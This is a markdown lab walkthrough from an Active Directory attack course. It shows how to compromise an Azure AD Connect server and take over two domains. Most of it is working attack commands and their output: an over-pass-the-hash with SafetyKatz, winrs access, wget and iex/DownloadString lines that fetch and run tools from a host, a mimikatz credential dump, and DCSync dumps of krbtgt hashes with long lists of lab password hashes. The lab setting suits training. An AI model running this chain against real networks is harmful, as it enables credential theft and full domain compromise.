








# Hands-on 19: Cross Domain Attacks - Azure AD

- [Hands-on 19: Cross Domain Attacks - Azure AD](#hands-on-19-cross-domain-attacks---azure-ad)
  - [Tasks](#tasks)
  - [Find out the machine where Azure AD Connect is installed](#find-out-the-machine-where-azure-ad-connect-is-installed)
  - [Compromise the machine and extract the password of AD Connect user in clear-text](#compromise-the-machine-and-extract-the-password-of-ad-connect-user-in-clear-text)
  - [Using the AD Connect user's password, extract secrets from us-dc and techcorp-dc](#using-the-ad-connect-users-password-extract-secrets-from-us-dc-and-techcorp-dc)

---

## Tasks

- Find out the machine where Azure AD Connect is installed.
- Compromise the machine and extract the password of AD Connect user in clear-text.
- Using the AD Connect user's password, extract secrets from us-dc and techcorp-dc.

<br/>

----

## Find out the machine where Azure AD Connect is installed

Use **PowerView.ps1** to enumerate:

```
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\PowerView.ps1

Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```

  

- The machine installed with Azure AD Connect is `US-ADConnect`

<br/>

---

## Compromise the machine and extract the password of AD Connect user in clear-text

In [Hands-on 13](l13-RBCD.md), it is found that `helpdeskadmin` can access `us-adconnect`. Recall the `helpdeskadmin` credential:

Note:
helpdeskadmin
- AES256: `f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534`
- NTLM: `94b4a7961bb45377f6e7951b0d8630be`

<br/>

On the RDP machine, using an elevated shell, perform a Over-Pass-the-Hash using `helpdeskadmin` credential:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /run:powershell.exe" "exit"
```

  

<br/>

Use `winrs` to access `US-ADConnect`:

```
winrs -r:us-adconnect.us.techcorp.local cmd.exe
```

  

<br/>

Download `Loader.exe` from the RDP machine:

```
powershell -ep bypass
```

```
cd C:\Users\Public; wget http://192.168.100.64/Loader.exe -OutFile .\Loader.exe
```

<br/>

On `us-adconnect`, use `Loader.exe` to load `SafetyKatz.exe` into memory and dump passwords:

```
.\Loader.exe -path http://192.168.100.64/SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

  

Result:

```
mimikatz(commandline) # sekurlsa::ekeys

Authentication Id : 0 ; 928429 (00000000:000e2aad)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:19 AM
SID               : S-1-5-96-0-2

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 27402 (00000000:00006b0a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:24 AM
SID               : S-1-5-96-0-0

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 1129509 (00000000:00113c25)
Session           : RemoteInteractive from 2
User Name         : adconnect
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:29:19 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1114

         * Username : adconnect
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       57d59f785ef201207412119d79b584aaad6da5d32a3e2bb12932c52daefe6ae9
           rc4_hmac_nt       4e150424ccf419d83ce3a8ad1db7b94a
           rc4_hmac_old      4e150424ccf419d83ce3a8ad1db7b94a
           rc4_md4           4e150424ccf419d83ce3a8ad1db7b94a
           rc4_hmac_nt_exp   4e150424ccf419d83ce3a8ad1db7b94a
           rc4_hmac_old_exp  4e150424ccf419d83ce3a8ad1db7b94a

Authentication Id : 0 ; 930749 (00000000:000e33bd)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:19 AM
SID               : S-1-5-90-0-2

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 47533 (00000000:0000b9ad)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:26 AM
SID               : S-1-5-90-0-1

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : US-ADCONNECT$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-18

         * Username : us-adconnect$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       291630ec0a009eea6b77176cce76a0fb91f4a844c6abc06f47afc49e273ed6fc
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 930786 (00000000:000e33e2)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:19 AM
SID               : S-1-5-90-0-2

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-ADCONNECT$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:25 AM
SID               : S-1-5-20

         * Username : us-adconnect$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       291630ec0a009eea6b77176cce76a0fb91f4a844c6abc06f47afc49e273ed6fc
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 1129448 (00000000:00113be8)
Session           : RemoteInteractive from 2
User Name         : adconnect
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:29:19 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1114

         * Username : adconnect
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       57d59f785ef201207412119d79b584aaad6da5d32a3e2bb12932c52daefe6ae9
           rc4_hmac_nt       4e150424ccf419d83ce3a8ad1db7b94a
           rc4_hmac_old      4e150424ccf419d83ce3a8ad1db7b94a
           rc4_md4           4e150424ccf419d83ce3a8ad1db7b94a
           rc4_hmac_nt_exp   4e150424ccf419d83ce3a8ad1db7b94a
           rc4_hmac_old_exp  4e150424ccf419d83ce3a8ad1db7b94a

Authentication Id : 0 ; 98686 (00000000:0001817e)
Session           : Service from 0
User Name         : ADSync
Domain            : NT SERVICE
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:39 AM
SID               : S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 47475 (00000000:0000b973)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:26 AM
SID               : S-1-5-90-0-1

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

Authentication Id : 0 ; 27521 (00000000:00006b81)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:24 AM
SID               : S-1-5-96-0-1

         * Username : US-ADCONNECT$
         * Domain   : us.techcorp.local
         * Password : \wrh:@r[=ImzK%5I]fht 9<KT$lBOD6\YPHGW0cfLM,vGbR)jVa;N, v)'cIH'qm5owfr1W5m_ZNpyD[cw 7I4]/f/!/p^y=Z[ina+&5ytV!f0l&mk\KJ5A4
         * Key List :
           aes256_hmac       0e29176c7aab71a2dd363880733ccd8cb9d35d9a69441cb55943c7358d5a69b0
           aes128_hmac       0ec352d92c34d3f34c71e6b99b3d385f
           rc4_hmac_nt       093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old      093f64d9208f2b546a3b487388b2b34a
           rc4_md4           093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_nt_exp   093f64d9208f2b546a3b487388b2b34a
           rc4_hmac_old_exp  093f64d9208f2b546a3b487388b2b34a

mimikatz(commandline) # exit
Bye!
PS C:\Users\Public>
```

<br/>

To obtain the cleartext password of `MSSOL_*`, obtain `adconnect.ps1` from our RDP machine and run it:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.64/adconnect.ps1")); adconnect
```

  

Note:
MSSOL_16fb75d0227d
- Password: `70&n1{p!Mb7K.C)/USO.a{@m*%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf`

<br/>

---

## Using the AD Connect user's password, extract secrets from us-dc and techcorp-dc

On the RDP machine:

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly powershell
```

  
 
<br/>

Then use `InviShell`:

```
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

Run DCSync to obtain `us\krbtgt` hash:

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

  

Result:

```
mimikatz(powershell) # lsadump::dcsync /user:us\krbtgt
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: b0975ae49f441adc6b024ad238935af5
    ntlm- 0: b0975ae49f441adc6b024ad238935af5
    lm  - 0: d765cfb668ed3b1f510b8c3861447173

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 819a7c8674e0302cbeec32f3f7b226c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
      aes128_hmac       (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
      des_cbc_md5       (4096) : 923158b519f7a454

* Primary:Kerberos *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 923158b519f7a454

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a1bdf6146e4b13c939093eb2d72416c9
    02  cd864c0d5369adad4fc59a469a2d4d17
    03  2123179b0ab5c0e37943e346ef1f9d9a
    04  a1bdf6146e4b13c939093eb2d72416c9
    05  cd864c0d5369adad4fc59a469a2d4d17
    06  3449e5615d5a09bbc2802cefa8e4f9d4
    07  a1bdf6146e4b13c939093eb2d72416c9
    08  296114c8d353f7435b5c3ac112523ba4
    09  296114c8d353f7435b5c3ac112523ba4
    10  5d504fb94f1bcca78bd048de9dad69e4
    11  142c7fde1e3cb590f54e12bbfdecfbe4
    12  296114c8d353f7435b5c3ac112523ba4
    13  13db8df6b262a6013f78b082a72add2c
    14  142c7fde1e3cb590f54e12bbfdecfbe4
    15  b024bdda9bdb86af00c3b2503c3bf620
    16  b024bdda9bdb86af00c3b2503c3bf620
    17  91600843c8dadc79e72a753649a05d75
    18  423730024cfbbc450961f67008a128a5
    19  d71f700d63fa4510477342b9dc3f3cc7
    20  bad6b9122f71f8cfd7ea556374d381d9
    21  52c6560f77613d0dcf460476da445d93
    22  52c6560f77613d0dcf460476da445d93
    23  23504d9f1325c5cf68892348f26e77d7
    24  8228bd623c788b638fce1368c6b3ef44
    25  8228bd623c788b638fce1368c6b3ef44
    26  a2659c1d9fa797075b1fabdee926569b
    27  784f5fbc5276dcc8f88bbcdfa27b65d8
    28  2ac6c7c1c24262b424f85e1ab762f1d3
    29  4bef285b22fd87f4868be352958dcb9e


```

<br/>

Also do the same on the forest:

```
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:techcorp.local /user:techcorp\krbtgt"'
```

  

Result:

```
PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::dcsync /domain:techcorp.local /user:techcorp\krbtgt"'

  .#####.   mimikatz 2.2.0 (x64) #18362 Oct 30 2019 13:01:25
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /domain:techcorp.local /user:techcorp\krbtgt
[DC] 'techcorp.local' will be the domain
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 1:52:52 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
    ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
    lm  - 0: 295fa3fef874b54f29fd097c204220f0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9fe386f0ebd8045b1826f80e3af94aed

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
      aes128_hmac       (4096) : ac670a0db8f81733cdc7ea839187d024
      des_cbc_md5       (4096) : 977526ab75ea8691

* Primary:Kerberos *
    Default Salt : TECHCORP.LOCALkrbtgt
    Credentials
